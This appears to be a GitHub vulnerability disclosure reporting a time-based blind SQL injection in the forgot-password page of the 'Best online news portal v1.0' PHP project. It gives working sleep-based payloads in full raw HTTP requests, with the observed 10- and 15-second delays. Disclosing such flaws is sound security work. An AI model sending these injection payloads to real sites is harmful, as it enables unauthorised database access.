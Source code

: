 # Best online news portal v1.0 has SQL injection

BUG_Author:PEOIzEve

Website source address:https://www.sourcecodester.com/php/16067/best-online-news-portal-project-php-free-download.html

Vulnerability File: /101news/admin/forgot-password.php

POST parameter 'username' exists SQL injection vulnerability

Payload1:username=a' and (select 1 from (select(sleep(10)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=

```
POST /101news/admin/forgot-password.php HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/101news/admin/forgot-password.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close

username=a' and (select 1 from (select(sleep(10)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=
```

The server's response time is 10 seconds

![image](https://github.com/PEOIzEve/bug_report/blob/main/sql1.png)

Payload1:username=a' and (select 1 from (select(sleep(15)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=

```
POST /101news/admin/forgot-password.php HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/101news/admin/forgot-password.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close

username=a' and (select 1 from (select(sleep(15)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=
```

The server's response time is 15 seconds

![image](https://github.com/PEOIzEve/bug_report/blob/main/sql2.png)
